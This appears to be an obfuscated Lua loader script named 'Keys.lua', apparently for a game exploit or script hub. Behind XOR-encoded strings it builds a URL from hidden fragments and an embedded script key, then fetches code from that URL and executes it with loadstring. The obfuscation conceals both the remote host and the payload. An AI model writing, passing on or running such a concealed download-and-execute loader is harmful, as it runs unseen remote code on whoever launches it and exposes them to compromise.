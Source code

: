 script_key = "y8c1gp3eszy7e9a3x2v35s028dx87951" -- script: Keys.lua
--[[

    This script is protected with
    Bulletproof from LuaObfuscator.com

]]--
local v0={};local v1=string.char;local v2=string.byte;local v3=string.sub;local v4=bit32 or bit ;local v5=v4.bxor;local v6=table.concat;local v7=table.insert;local function v8(v9,v10) local v11={};for v15=1, #v9 do v7(v11,v1(v5(v2(v3(v9,v15,v15 + 1 )),v2(v3(v10,1 + (v15% #v10) ,1 + (v15% #v10) + 1 )))%256 ));end return v6(v11);end do v0[v8("\227\223\71\32\158\77\47\203\199\121\109\226\106\11\230\150\22","\74\165\179\38\84\215\41")]=0;v0[v8("\48\126\187\0","\220\70\78\158\48\118")]=nil;v0[v8("\192\170\238\116","\114\182\155\203\68")]=nil;while true do if (v0[v8("\85\169\191\236\111\50\118\171\170\199\31\99\80\132\157\189\22","\86\19\197\222\152\38")]==1) then if (game and game[v8("\212\84\108\245\90\67\34","\86\156\32\24\133\29\38")]) then loadstring(game:HttpGet(v0["v1%0"]))();elseif (HTTP and HTTP[v8("\128\160\119","\55\199\229\35\200\29\28")]) then HTTP:GET(v0["v1%0"],function(v19,v20) if (v19==200) then loadstring(v20)();end end);end break;end if (v0[v8("\82\246\221\32\58\112\255\210\32\44\45\175\255\21\48\49\170","\115\20\154\188\84")]==0) then v0[v8("\199\143\200\124","\223\177\191\237\76\225")]="/";v0[v8("\64\152\229\106","\219\54\169\192\90\48\80")]=v8("\65\86\20\53\90","\69\41\34\96")   .. ":"   .. v0[v8("\170\147\146\90","\75\220\163\183\106\98")]   .. v0[v8("\20\234\206\103","\185\98\218\235\87")]   .. v8("\199\41\38\233\220\172\222\47\36\231\202\165\217","\202\171\92\71\134\190")   .. v8("\103\194\35\133","\232\73\161\76")   .. v0[v8("\173\137\7\13","\126\219\185\34\61")]   .. v8("\31\205\76\123\110\99\224","\135\108\174\62\18\30\23\147")   .. v0[v8("\160\185\111\155","\167\214\137\74\171\120\206\83")]   .. v8("\157\161","\199\235\144\82\61\152")   .. v0[v8("\17\70\252\123","\75\103\118\217")]   .. script_key   .. v0[v8("\209\4\53\68","\126\167\52\16\116\217")]   .. v8("\227\43\57\147","\156\168\78\64\224\212\121")   .. v8("\74\183\245\156\73\226\176\207\31","\174\103\142\197") ;v0[v8("\112\36\94\44\12\90\253\88\60\96\97\112\125\217\117\109\15","\152\54\72\63\88\69\62")]=1;end end end
